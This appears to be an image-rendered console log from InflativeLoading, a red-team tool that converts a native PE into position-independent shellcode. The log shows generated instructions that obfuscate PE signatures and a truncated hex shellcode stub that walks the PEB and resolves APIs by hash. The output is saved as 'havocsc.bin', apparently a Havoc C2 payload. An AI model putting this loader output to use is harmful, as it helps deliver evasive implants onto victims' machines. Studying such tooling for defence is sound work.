 ```powershell

    ██╗      ██████╗  █████╗ ██████╗ ██╗███╗   ██╗ ██████╗
    ██║     ██╔═══██╗██╔══██╗██╔══██╗██║████╗  ██║██╔════╝
    ██║     ██║   ██║███████║██║  ██║██║██╔██╗ ██║██║  ███╗
    ██║     ██║   ██║██╔══██║██║  ██║██║██║╚██╗██║██║   ██║
    ███████╗╚██████╔╝██║  ██║██████╔╝██║██║ ╚████║╚██████╔╝
    ╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═════╝ ╚═╝╚═╝  ╚═══╝ ╚═════╝

Author: Senzee
Github Repository: https://github.com/senzee1984/InflativeLoading
Twitter: senzee@1984
Website: https://winslow1984.com
Description: Dynamically convert a native PE to PIC shellcode
Attention: Bugs are expected, more support and improvements are coming!



[!] The offset to NT header is 0x80
[!] Depending on the program, obfuscation may not be compatible with it. Make sure you know how does the program work!
[!] Dynamically generated instructions to obfuscate remained PE signatures:
    mov dword ptr [rbx+0x3c], 0x29f7945;
    mov dword ptr [rbx+0xa8], 0x99924859;
    mov dword ptr [rbx+0xb0], 0x99924859;
    mov dword ptr [rbx+0xb4], 0x1203885a;
    mov dword ptr [rbx+0xd0], 0xbc488d5f;
    mov dword ptr [rbx+0x110], 0xbc488d5f;
    mov dword ptr [rbx+0x114], 0x87287f91;
    mov dword ptr [rbx+0x130], 0xbc488d5f;
    mov dword ptr [rbx+0x134], 0xd44cc6bb;
    mov dword ptr [rbx+0x170], 0xbc488d5f;
    mov dword ptr [rbx+0x174], 0x8d976bd1;

[+] Shellcode Stub size: 957 bytes
[+] Generating NOP-like instructions to pad shellcode stub up to 0x1000 bytes
[!] Shellcoded PE's size: 126976 bytes


buf += b"\x48\x83\xe4\xf0\x48\x31\xd2\x65\x48\x8b\x42\x60\x48\x8b\x70\x20\x48\x83\xc6\x70"
buf += b"\xc6\x06\x0c\xc6\x46\x02\xff\x48\x8b\x76\x08\xc7\x06\x31\x00\x2e\x00\xc7\x46\x04"
buf += b"\x65\x00\x78\x00\xc7\x46\x08\x65\x00\x20\x00\xc6\x46\x0c\x00\x48\x8b\x70\x18\x48"
buf += b"\x8b\x76\x30\x4c\x8b\x0e\x4d\x8b\x09\x4d\x8b\x49\x10\xeb\x66\x41\x8b\x49\x3c\x4d"
buf += b"\x31\xff\x41\xb7\x88\x4d\x01\xcf\x49\x01\xcf\x45\x8b\x3f\x4d\x01\xcf\x41\x8b\x4f"
buf += b"\x18\x45\x8b\x77\x20\x4d\x01\xce\xe3\x3f\xff\xc9\x48\x31\xf6\x41\x8b\x34\x8e\x4c"
buf += b"\x01\xce\x48\x31\xc0\x48\x31\xd2\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb"
buf += b"\xf4\x44\x39\xc2\x75\xda\x45\x8b\x57\x24\x4d\x01\xca\x41\x0f\xb7\x0c\x4a\x45\x8b"
buf += b"\x5f\x1c\x4d\x01\xcb\x41\x8b\x04\x8b\x4c\x01\xc8\xc3\x48\x31\xc0\xc3\x4c\x89\xcd"
buf += b"\x41\xb8\x8e\x4e\x0e\xec\xe8\x8c\xff\xff\xff\x49\x89\xc4\x41\xb8\xaa\xfc\x0d\x7c"
buf += b"\xe8\x7e\xff\xff\xff\x49\x89\xc5\xeb\x0a\x48\x31\xc0\x8b\x43\x3c\x48\x01\xd8\xc3"
buf += b"\x48\x31\xf6\x48\x31\xff\x48\x8d\x1d\x17\x0f\x00\x00\xe8\xe4\xff\xff\xff\x8b\xb0"
buf += b"\x90\x00\x00\x00\x48\x01\xde\x8b\xb8\x94\x00\x00\x00\x48\x01\xf7\x48\x39\xfe\x74"
buf += b"\x74\x48\x31\xd2\x8b\x56\x10\x48\x85\xd2\x74\x69\x48\x31\xc9\x8b\x4e\x0c\x48\x01"
buf += b"\xd9\x41\xff\xd4\x48\x31\xd2\x8b\x56\x10\x48\x01\xda\x48\x89\xc1\x49\x89\xd6\x4c"
buf += b"\x89\xf2\x48\x8b\x12\x48\x85\xd2\x74\x3d\x49\xb9\x00\x00\x00\x00\x00\x00\x00\x80"
buf += b"\x4c\x85\xca\x48\x89\xcd\x75\x0c\x48\x01\xda\x48\x83\xc2\x02\x41\xff\xd5\xeb\x10"
buf += b"\x49\xb9\xff\xff\xff\xff\xff\xff\xff\x7f\x4c\x21\xca\x41\xff\xd5\x48\x89\xe9\x4c"
buf += b"\x89\xf2\x48\x89\x02\x49\x83\xc6\x08\xeb\xb8\x48\x83\xc6\x14\xeb\x87\x48\x31\xf6"
buf += b"\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xff\xe8\x45\xff\xff\xff\x8b\xb0\xb0"
......126576 more bytes......


Generated shellcode successfully saved in file havocsc.bin

```